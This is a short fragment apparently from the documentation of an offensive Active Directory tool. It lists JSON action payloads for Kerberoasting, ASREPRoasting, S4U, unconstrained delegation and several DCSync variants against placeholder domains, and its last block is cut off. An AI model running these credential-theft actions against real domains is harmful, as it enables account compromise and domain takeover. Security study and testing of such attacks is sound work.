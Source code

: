 ### Kerberoasting
```bash
# Kerberoasting attack
{
  "action": "kerberoast",
  "target_domain": "domain.com"
}

# ASREPRoasting attack
{
  "action": "asreproast",
  "target_domain": "domain.com"
}

# S4U attack
{
  "action": "s4u_attack",
  "target_user": "user@domain.com",
  "target_domain": "domain.com"
}

# Unconstrained delegation attack
{
  "action": "unconstrained_delegation",
  "target_domain": "domain.com"
}
```

### DCSync
```bash
# DCSync attack
{
  "action": "dcsync",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "target_dc": "dc.domain.com"
}

# DCSync forest
{
  "action": "dcsync_forest",
  "target_domain": "domain.com"
}

# DCSync user
{
  "action": "dcsync_user",
  "target_user": "user@domain.com",
  "target_domain": "domain.com"
}

# DCSync group
{
  "action": "dcsync_group",
  "target_group": "Domain Admins",
  "target_domain": "domain.com"
}

# DCSync computer
{
  "action": "dcsync_computer",
  "target_computer": "computer.domain.com",
  "target_domain": "domain.com"
```